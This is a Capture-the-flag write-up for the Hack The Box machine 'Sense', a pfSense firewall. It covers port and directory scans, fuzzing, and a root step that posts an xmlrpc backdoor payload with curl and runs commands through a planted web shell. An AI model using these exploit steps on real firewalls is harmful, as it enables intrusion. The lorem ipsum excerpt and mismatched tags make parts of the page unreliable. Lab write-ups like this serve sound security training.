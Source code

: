 ```yaml
---
layout: single
title: Sense - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-sense/sense_logo.png
  teaser_home_page: true
  icon: /assets/images/freebsd.png
categories:
  - hackthebox
  - infosec
tags:  
  - freebsd
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-sense/sense_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/sense]# nmap -Pn -n -sCV 10.10.10.60 --open                                                                        (master✱)
    PORT    STATE SERVICE    VERSION
    80/tcp  open  http       lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Did not follow redirect to https://10.10.10.60/
    443/tcp open  ssl/https?
    | ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
    | Not valid before: 2017-10-14T19:21:35
    |_Not valid after:  2023-04-06T19:21:35
    |_ssl-date: TLS randomness does not represent time

  DIRB:
  ==> DIRECTORY: https://10.10.10.60/classes/
  ==> DIRECTORY: https://10.10.10.60/css/
  + https://10.10.10.60/favicon.ico (CODE:200|SIZE:1406)
  ==> DIRECTORY: https://10.10.10.60/includes/
  + https://10.10.10.60/index.html (CODE:200|SIZE:329)
  + https://10.10.10.60/index.php (CODE:200|SIZE:6690)
  ==> DIRECTORY: https://10.10.10.60/installer/
  ==> DIRECTORY: https://10.10.10.60/javascript/
  ==> DIRECTORY: https://10.10.10.60/themes/
  ==> DIRECTORY: https://10.10.10.60/tree/
  ==> DIRECTORY: https://10.10.10.60/widgets/
  + https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384)

  NIKTO:
  + Cookie cookie_test created without the secure flag
  + Cookie cookie_test created without the httponly flag
  + Multiple index files found: /index.php, /index.html
  + Hostname '10.10.10.60' does not match certificate's names: Common
  + Allowed HTTP Methods: OPTIONS, GET, HEAD, POST


2. Check the pages to see what we have to work with;

  https://10.10.10.60/index.php is a login page to a pfsense firewall.
  https://10.10.10.60/xmlrpc.php is used by pfsense, and is vital from privilege escallation.

  https://10.10.10.60/tree/ is running SilverStripe Tree Control: v0.1, 30 Oct 2005. Sounds old and probably have some vulns.

  We are unable to do anything with the info we've found. So take one step back and start to fuzz.


3. Fuzzing!

    root@nidus:/srv/pub-share# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u https://sense.htb/FUZZ.txt
      --- snip ---
      changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]

    [root:/git/htb/sense]# curl -k https://sense.htb/changelog.txt                                                                  (master✱)
      # Security Changelog

      ### Issue
      There was a failure in updating the firewall. Manual patching is therefore required

      ### Mitigated
      2 of 3 vulnerabilities have been patched.

      ### Timeline
      The remaining patches will be installed during the next maintenance window#

  The unpatched vuln they mention above, is hopefully the xmlrpc RCE. However this doesn't really help right now - so continue to fuzz.




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


https://github.com/chadillac/pfsense_xmlrpc_backdoor
[root:/git/htb/sense]# curl -k --data @pfsense_exec https://10.10.10.60/xmlrpc.php
https://10.10.10.60/ignore.php?cmd=whoami

https://github.com/spencerdodd/pfsense-code-exec    <-- full RCE rev shell.

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
